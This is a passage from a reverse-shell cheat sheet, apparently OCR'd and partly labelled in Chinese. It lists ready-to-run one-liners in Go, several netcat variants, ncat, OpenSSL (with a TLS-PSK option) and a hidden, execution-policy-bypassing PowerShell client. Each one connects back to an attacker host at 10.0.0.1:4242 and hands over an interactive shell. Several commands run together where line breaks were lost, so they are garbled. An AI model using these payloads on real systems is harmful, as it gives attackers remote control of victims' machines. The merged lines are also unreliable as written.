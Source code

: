 ```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Netcat Traditional

```bash
nc -e /bin/sh 10.0.0.1 4242nc -e /bin/bash 10.0.0.1 4242nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Netcat BusyBox

```bash
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Ncat

```bash
ncat 10.0.0.1 4242 -e /bin/bashncat --udp 10.0.0.1 4242 -e /bin/bash
```

### OpenSSL

攻击者

```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodesuser@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242oruser@attack$ ncat --ssl -vv -l -p 4242user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (不依赖于 PKI 或自签名证书)

```bash
# generate 384-bit PSK# use the generated string as a value for the two PSK variables from belowopenssl rand -hex 48 # server (attacker)export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT# client (victim)export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

